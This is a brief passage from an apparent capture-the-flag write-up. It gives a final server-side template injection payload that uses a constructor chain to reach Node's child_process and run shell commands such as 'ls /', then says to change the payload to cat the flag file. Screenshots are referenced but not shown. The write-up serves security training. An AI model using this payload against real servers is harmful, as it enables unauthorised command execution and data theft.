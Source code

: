 Modifying this payload, we can obtain the flag!

### Final Payload:

First, we run 

```js
{{range.constructor("return global.process.mainModule.require('child_process').execSync('ls /')")()}}
```

![ls](naughty_or_nice_img/ls.png)

We see the flag here, and we can change the payload to `cat` it out!

![see_flag](naughty_or_nice_img/see_flag.png)
![flag](naughty_or_nice_img/flag.png)
![flag](naughty_or_nice_img/flag_contents.png)

